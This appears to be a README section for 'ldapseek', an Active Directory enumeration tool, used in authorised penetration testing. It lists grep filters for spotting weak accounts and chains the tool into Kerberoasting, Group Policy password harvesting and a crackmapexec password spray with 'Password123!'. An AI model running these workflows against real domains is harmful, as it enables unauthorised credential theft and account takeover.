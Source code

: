 ## Filtering Results

```bash
# Find service accounts
grep "svc_\|service" users.txt

# Find disabled accounts
grep "ACCOUNTDISABLE" ldap_details.txt

# Find accounts with no password expiry
grep "DONT_EXPIRE_PASSWORD" ldap_details.txt

# Find admin accounts
cat admin_users.txt

# Find delegation issues
grep "DELEGATION" ldap_details.txt

# Find accounts without preauth
cat asrep_users.txt

# Find Kerberoastable accounts
cat spns.txt
```

## Integration Examples

### With KerbSeek
```bash
# Get targets
./ldapseek.py dclist.txt --spns -u user -p pass

# Attack
../kerbseek/kerbseek.py --kerberoast --spns spns.txt -d CORP --dc dc01
```

### With CredSeek
```bash
# Find GPP passwords
../credseek/credseek.py --gpp dclist.txt -u user -p pass

# Use GPP creds for LDAP
./ldapseek.py dclist.txt --full -u gpp_admin -p gpp_pass
```

### With CrackMapExec
```bash
# Get usernames
./ldapseek.py dclist.txt --users -u user -p pass

# Password spray
crackmapexec smb iplist.txt -u users.txt -p 'Password123!' --continue-on-success
```
